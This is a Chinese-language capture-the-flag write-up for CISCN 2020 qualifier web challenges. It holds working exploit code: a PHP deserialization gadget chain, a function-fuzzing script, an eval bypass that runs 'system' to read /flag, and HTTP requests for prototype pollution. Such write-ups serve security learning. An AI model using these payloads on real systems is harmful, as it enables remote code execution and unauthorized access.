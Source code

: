 # ciscn 2020 预选赛

## babyunserialize

和wmctf2020的webwebpayload相同



```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"phpinfo"],
            $adhoc=[-1=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```



## easyphp

阅读代码我们发现:`if(!pcntl_wifexited($status)){phpinfo();}`，及fork的子进程报错就会执行phpinfo，而phpinfo里面通常包含敏感信息，和一些对我们题目有帮助的信息。

fork子进程执行的代码是：

```php
if(isset($_GET['a'])&&is_string($_GET['a'])&&!preg_match("/[:\\\\]|exec|pcntl/i",$_GET['a'])){
            call_user_func_array($_GET['a'],[$_GET['b'],false,true]);
```

而这里调用了非常敏感的call_user_func_array，所以无论是想让子进程报错还是直接执行代码这里都是非常好的选择。因此我们先要写个fuzz脚本：

```php
<?php

    $payloads=[
        "ls",//shell命令执行测试
        "index.php",//读取文件测试
        "asdfasldfjaklsdfjl.php",//创建文件/文件夹测试
        "echo 123;"//php命令执行测试
    ];
    $str=file_get_contents("fatalerr.log");
    if(!$str){
        $str="[]";
    }
    $fatalerror=eval("return ".$str.";");
    function show_result($func,$r,$v){
        if($r==NULL){
        }
        try{
            echo "$func($v,false,true) return value:";
            var_dump($r);
            echo "<br />";
        }catch(Exception $e){}
    }

    function brute_func($a){
        global $payloads;
        global $fatalerror;
        
        foreach($a as $val){
            
            if(is_array($val)){
                brute_func($val);
                continue;
            }
            
            if(in_array($val,$fatalerror)){
                continue;
            }
            array_push($fatalerror,$val);
            file_put_contents("fatalerr.log",var_export($fatalerror,TRUE));
            foreach($payloads as $v){
                $r=NULL;
                
                $r=call_user_func_array($val,[$v,false,true]);
                show_result($val,$r,$v);
                
            }
            array_pop($fatalerror);
            
        }
    };
    $arr=get_defined_functions();
    brute_func($arr);
?>
```



多次执行发现：

```php
stream_socket_server
exec
stream_socket_client
```

这三个函数会引起segment_fault 且 exec虽然会引起segment  fault但是仍然执行了代码

但是这里只需要segment_fault,所以访问`?a=stream_socket_server&b=`拿到flag



## rceme



注意到有个eval只要绕过限制就可以执行命令了

很简单利用字符串拼接绕过

`{if:+('base64_deco'.'d'.'e')('c3lzdGVt')('cat+/flag')}{end+if}`



## easytrick

队里的师傅做出来的,dbq，我太菜了

```php
<?php
class trick{
    public $trick1;
    public $trick2;
}


$t = new trick;
$t->trick1 = "INF";
$t->trick2 = 1e1111;
echo serialize($t);

```

## littlegame

```
λ npm audit

                       === npm audit security report ===

# Run  npm update set-value --depth 1  to resolve 1 vulnerability

  High            Prototype Pollution

  Package         set-value

  Dependency of   set-value

  Path            set-value

  More info       https://npmjs.com/advisories/1012



found 1 high severity vulnerability in 61 scanned packages
  run `npm audit fix` to fix 1 of them.
```

原型链污染，poc地址：
https://snyk.io/vuln/SNYK-JS-SETVALUE-450213

- 先访问一次`/SpawnPoint`，拿个sessionid
- 然后访问`/Privilege`污染原型链（用`constructor.prototype`或者`__proto__`均可）
- 最后访问`/DeveloperControlPanel`拿flag

```
POST /Privilege HTTP/1.1
Host: host
Content-Type: application/x-www-form-urlencoded
Cookie: session=yoursession

NewAttributeValue=abc&NewAttributeKey=__proto__.password4

POST /DeveloperControlPanel HTTP/1.1
Host: host
Content-Type: application/x-www-form-urlencoded
Cookie: session=yoursession

key=password4&password=abc
```